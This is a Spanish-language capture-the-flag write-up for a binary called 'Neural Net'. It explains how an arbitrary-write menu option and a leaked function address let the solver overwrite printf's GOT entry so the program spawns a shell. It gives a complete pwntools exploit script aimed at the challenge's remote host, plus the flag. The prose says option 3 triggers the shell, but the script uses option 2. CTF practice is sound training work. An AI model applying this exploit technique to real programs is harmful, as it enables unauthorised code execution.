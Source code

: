 # Neural Net

```
 ./NeuralNet
--- Neural Net Simulator v0.1 (by Alex the Intern) ---
Prediction module address (predict_outcome): 0x55cecbee91e2

Model Control Menu:
1. Train model (train_model)
2. Make a prediction (predict_outcome)
3. Neural Intervention (debug)
4. Exit
>
```

La opcion 1 lo unico que hace es imprimir texto con `puts`, la opcion 2 lo mismo pero usa `printf`.

La opcion 3 es mas util, permite almacenar un valor en una direccion de memoria especifica:
``` C
    if (local_1c == 3) {
      printf("Enter \'neuron\' address to modify (hex): > ");
      __isoc99_scanf(&DAT_0010225b,&local_10);
      printf("Enter new \'neuron\' weight (hex): > ");
      __isoc99_scanf(&DAT_0010225b,&local_18);
      *local_10 = local_18;
      printf("Weight at address 0x%lx successfully modified.\n",loc al_10);
```

Nos filtran la direccion de la funcion `predict_outcome` y existe otra funcion llamada `unlock_secret_research_data` que nos da una shell:
``` C
void unlock_secret_research_data(void)

{
  puts("\n*** HIDDEN CORRELATION DETECTED! ***");
  puts("Access granted to \'Lead Data Scientist\' research data. ..");
  puts("You\'ve gained root access to the main dataset server." );
  system("/bin/sh");
  return;
}
```

El metodo es simple, usamos la opcion 3 para sobreescribir la entrada en la GOT de `printf` con la direccion de `unlock_secret_research_data`, y luego usamos la opcion 3 para obtener la shell.

Debemos calcular los offsets que hay desde `unlock_secret_research_data` y `printf@GOT` con respecto a `predict_outcome` para asignar los valores correctos:

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./NeuralNet")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
break *main+445
'''

domain= "ctf.mf.grsu.by"
port = 9076

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================
r.recvuntil('_outcome): ')
leak = int(r.recvline().strip(), 16)
printf_got_addr = leak + 0x2e1e + 0x10
unlock_secret_addr = leak - 0x59

log.info(f"Leak address: {hex(leak)}")
log.info(f"printf@GOT: {hex(printf_got_addr)}")
log.info(f"unlock_secret_data:{hex(unlock_secret_addr)}")

r.sendline(b"3")
r.sendline(hex(printf_got_addr).encode())
r.sendline(hex(unlock_secret_addr).encode())

r.sendline(b"2")

r.interactive()
```

`grodno{p3R3D08UchIL_n3ir053t_prY4M0_v_G0T}`
